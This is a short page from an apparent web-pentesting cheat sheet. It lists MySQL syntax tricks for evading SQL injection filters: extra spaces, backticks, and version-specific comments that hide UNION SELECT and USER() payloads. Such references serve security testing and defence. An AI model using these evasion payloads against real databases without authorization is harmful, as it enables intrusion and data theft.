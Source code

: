 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - defense-evasion
  - sql-injection
---
```

# Spaces

## MySQL

```
information_schema . tables
```

## Backticks

### MySQL

```
`information_schema`.`tables`
```

## Specific Code

### MySQL

 MySQL allows you to specify the version number after the exclamation mark. The syntax within the comment is only executed if the version is greater or equal to the specified version number. 

```
/*!information_schema.tables*/
UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)